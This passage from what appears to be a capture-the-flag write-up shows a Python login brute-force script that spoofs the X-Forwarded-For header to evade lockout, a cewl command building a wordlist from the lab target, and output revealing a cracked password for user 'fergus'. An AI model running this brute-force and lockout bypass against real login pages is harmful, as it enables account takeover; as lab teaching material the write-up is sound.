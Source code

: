 
for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
{{< /highlight >}}

Where the `pass_file` is a wordlist obtained with `cewl`:

> CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper.

{{< highlight html >}}
cewl -w wordlists.txt -d 10 -m 1 http://10.10.10.191
{{< /highlight >}}

Where:
- `-w` is the output file where to write
- `-d` is the spider depth
- `-m` is the minimum word length

Launching the script I'm able to find a valid password for the `fergus` user!

{{< highlight html >}}
python3 bruteforce.py
...
...
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
{{< /highlight >}}
